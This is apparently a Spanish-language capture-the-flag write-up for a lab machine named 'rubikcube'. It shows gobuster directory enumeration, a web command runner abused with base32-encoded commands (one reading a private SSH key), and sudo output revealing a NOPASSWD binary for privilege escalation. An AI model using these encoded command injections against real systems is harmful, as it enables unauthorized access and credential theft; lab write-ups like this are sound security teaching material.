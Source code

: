 ```bash
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/img                  (Status: 301) [Size: 325] [--> http://rubikcube.dl/administration/img/]
/index.php            (Status: 200) [Size: 5460]
/configuration.php    (Status: 200) [Size: 6665]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================

```

Vemos a dos posibles usuarios -> **luisillo** y **maria**

Al meternos en el configuration.php, vemos un menú vertical, y al darle a console nos pone que no existe, raro.

Si le metemos el `administration` delante en la URL nos lleva a un ejecutador de comandos.
# EXPLOTACION

Pone que hay que codificarlo.

Probando, en base32 funciona : 
```bash

echo "ls -la" | base32    
NRZSALLMMEFA====

```

Vemos que hay una clave ssh `.id_rsa` :

```bash
echo "cat .id_rsa" | base32
MNQXIIBONFSF64TTMEFA====

```

Pone que el propietario es root, pero no. 

YA ESTAMOS COMO LUISILLO.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
Matching Defaults entries for luisillo on 698415d8b507:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 698415d8b507:
    (ALL) NOPASSWD: /bin/cube


```
